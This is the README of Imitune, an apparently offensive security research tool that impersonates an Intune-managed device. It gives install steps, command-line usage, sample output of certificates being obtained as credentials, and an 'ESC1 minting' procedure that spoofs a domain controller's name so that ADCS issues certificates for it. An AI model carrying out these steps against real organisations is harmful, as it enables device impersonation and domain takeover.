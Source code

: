 # Imitune

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
[![Python Version](https://img.shields.io/badge/python-3.12+-blue.svg)](https://python.org)
[![PyPI Version](https://img.shields.io/badge/pypi-v0.2.0-green.svg)](https://pypi.org/project/imitune/)
[![Last Commit](https://img.shields.io/github/last-commit/hotnops/Imitune)](https://github.com/hotnops/Imitune)
[![GitHub Stars](https://img.shields.io/github/stars/hotnops/Imitune?style=social)](https://github.com/hotnops/Imitune)

An OMA-DM client and set of helper tools to impersonate an MDM managed device.

## 📋 Table of Contents

- [Overview](#overview)
- [⚠️ Important Notice](#️-important-notice)
- [Installation](#installation)
  - [Prerequisites](#prerequisites)
  - [Install via PyPI](#install-via-pypi)
- [Usage](#usage)
  - [Basic Usage](#basic-usage)
  - [Command Line Arguments](#command-line-arguments)
- [ESC1 Minting](#esc1-minting)
- [Troubleshooting](#troubleshooting)
- [Contributing](#contributing)
- [License](#license)

## Overview

Imitune provides the capability to simulate MDM (Mobile Device Management) enrolled devices by implementing an OMA-DM client that can communicate with Microsoft Intune.

> **⚠️ Important**: This tool works best when you already have a working knowledge of the environment and can provide as much detail about the target environment as possible.

## Installation

### Prerequisites

- Python 3.12 or higher
- pip package manager

### Install via PyPI

It's recommended to use virtual environments to avoid dependency conflicts:

```bash
# Create project directory and virtual environment
mkdir imitune-ops
cd imitune-ops
python -m venv venv
```

**Activate the virtual environment:**

On Windows:

```cmd
venv\Scripts\activate.bat
```

On Linux/macOS:

```bash
source venv/bin/activate
```

**Install Imitune:**

```bash
pip install imitune
```

## Usage

1. Obtain an MDM certificate for an Intune management device
   See our blog post here on how to accomplish this step:
   https://specterops.io/blog/2025/07/30/entra-connect-attacker-tradecraft-part-3/
2. Copy the managementTree.json.template to managementTree.json. This represents all of your device settings and you should closely examine and modify the properties to your use case. Of note:
   DNSComputerName is the display name that will be presented in the Intune admin panel

```
"./DevDetail/Ext/Microsoft/DNSComputerName": "DEVICES BY HOTNOPS",
```

DeviceName is the value that will be used to populate the {{fullyQualifiedDomainName}} and {{deviceName}} properties

```
"./DevDetail/Ext/Microsoft/DeviceName": "DC02",
```

The ./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion is very important. Modifying this field will trigger a re-sync of all cached properties in Intune.

3. Run an init commanad

```bash
python -m imitune
--device-name DEVICE_NAME // This is only used for the source field of the OMA-DM message. Values in the managementTree.json file will be used for all management tree values
--pfx-file-path PFX_FILE_PATH // Path to the MDM certificate
--pfx-password // Password to the PFX file in the previous argument
--dummy-path // for testing, takes in a series of XML requests and respones from SyncMLViewer
--user-prompt // prompt the user before each request is sent
--output-directory // Output directory for loot and trace files. Uses --device-name if not provided
--user-jwt // Pass in a user JWT with management.microsoft.com aud to imitate a user logged into the device. This will help obtain configuration profiles scoped to individual users
```

Example:

```bash
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init


██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] got a request for ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/Status. sending 0
```

This tells is a desired response and tells us that Intune is asking about a particular certificate, and Imitune replied with an empty data response. This will trigger intune to send us a new ceritificate the next time we check in. If you modified the ./DevDetail/Ext/Microsoft/DeviceName parameter, wait for five minutes so that the request can be sent to the Intune Certificate Connector and returned. Once enough time has passed, re-run the command:

```bash
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init

██╗███╗   ███╗██╗████████╗██╗   ██╗███╗   ██╗███████╗
██║████╗ ████║██║╚══██╔══╝██║   ██║████╗  ██║██╔════╝
██║██╔████╔██║██║   ██║   ██║   ██║██╔██╗ ██║█████╗
██║██║╚██╔╝██║██║   ██║   ██║   ██║██║╚██╗██║██╔══╝
██║██║ ╚═╝ ██║██║   ██║   ╚██████╔╝██║ ╚████║███████╗
╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚══════╝
              [ I M I T U N E ]

[*] loading existing data from managementTree.json
[*] obtained credentials at ./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall/5E9C6770-6D2E-4602-8ACA-B3418B1182BE/PFXCertBlob. extracting
```

And you'll see that we have a PFX file saved in our output directory. You can use this PFX file with Rubeus to impersonate the device on-premises.

## ESC1 Minting

If a property in the managementTree is used to populate the subject or SAN of a certificate, we can mint certificates for any on premises device we want. To do so, we'll need to modify our managementTree.json and set the CacheVersion to 0

```
"./Vendor/MSFT/NodeCache/MS%20DM%20Server/CacheVersion": "0",
```

Also, remove any line that starts with

```
./Device/Vendor/MSFT/ClientCertificateInstall/PFXCertInstall
```

We remove these so that when Intue asks about them, we respond with a 404 and indicate that they need to be sent back down. Lastly, we need to rename our device to the target of our ESC1 attack:

```
"./DevDetail/Ext/Microsoft/DeviceName": "DOMAINCONTROLLER",
```

Once our managementTree.json is ready, we will initiate our sync with the invalid CacheVersion. Intune will proceed to send down the entire node cache and inquire about the certs that need to be installed.

```bash
python -m imitune --device-name TEST --pfx-file-path .\mdm-certificate.pfx --pfx-password il0veC3rts$ --action init
```

It will take up to five minutes for the CSR request to be sent to the ADCS server and returned. After waiting, re-run the command (without modifying the managementTree.json!) and the certificate should be returned.

## Troubleshooting

- Trace files
  Imitune saves all requests and responses in the $outputDir\traces folder. You can use these to determine what Intune is asking for and tweak any values in the managementTree.json file.
- Intune is resonding to my first request with an empty response
  You don goofed. This happened to me so so many times when developing this. Figure out what you sent that broke Intune, wait 30 minutes, and try again.
